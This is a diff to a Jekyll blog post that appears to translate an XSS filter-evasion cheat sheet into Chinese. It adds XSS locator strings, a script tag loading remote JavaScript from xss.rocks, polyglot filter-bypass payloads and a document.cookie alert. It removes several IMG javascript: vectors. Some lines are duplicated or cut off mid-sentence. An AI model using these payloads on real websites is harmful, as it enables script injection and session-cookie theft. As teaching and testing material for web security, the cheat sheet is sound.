

Before and after one commit to arewss/arewss.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 989 px high. Shown: the whole window at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; a style sheet for code colours, icons or effects is not loaded; some of the changed lines change nothing that is shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2020-11-13-xss.md

```diff
--- a/_posts/2020-11-13-xss.md
+++ b/_posts/2020-11-13-xss.md
@@ -1,26 +1,53 @@
-### 2.5.  通过JavaScript命令实现的图片XSS	### 2.5.  通过JavaScript命令实现的图片XSS
+标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：
 
 
-图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：	图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：
-
-
-> <IMG SRC=”javascript:alert(‘XSS’);”>	json
-<IMG SRC=”javascript:alert(‘XSS’);”>
-
-
-
-### 2.6.  无分号无引号	### 2.6.  无分号无引号
-
-
-> <IMG SRC=javascript:alert(‘XSS’)>	json
-<IMG SRC=javascript:alert(‘XSS’)>
+> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;	json
+>	‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
+> alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
+>	alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
+> \></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
+></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
 
 
 
 
 
-### 2.7.  不区分大小写的XSS攻击向量	### 2.7.  不区分大小写的XSS攻击向量
+### 2.2.  XSS定位器（短）	### 2.2.  XSS定位器（短）
 
 
-> <IMG SRC=JaVaScRiPt:alert(‘XSS’)>	json
-<IMG SRC=JaVaScRiPt:alert(‘XSS’)>
+如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞	如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞
+
+
+> ”;!–”<XSS>=&{()}	json
+”;!–”<XSS>=&{()}
+
+
+
+
+
+### 2.3.  无过滤绕过	### 2.3.  无过滤绕过
+
+
+这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：	这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：
+
+
+> <SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>
+<SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>
+
+
+
+
+
+### 2.4.  利用多语言进行过滤绕过	### 2.4.  利用多语言进行过滤绕过
+
+
+> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	json
+>	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
+> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
+>	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
+> <script>alert(document.cookie)</script>”>
+>	<script>alert(document.cookie)</script>”>
+> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
+>	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
+> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
+<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
```
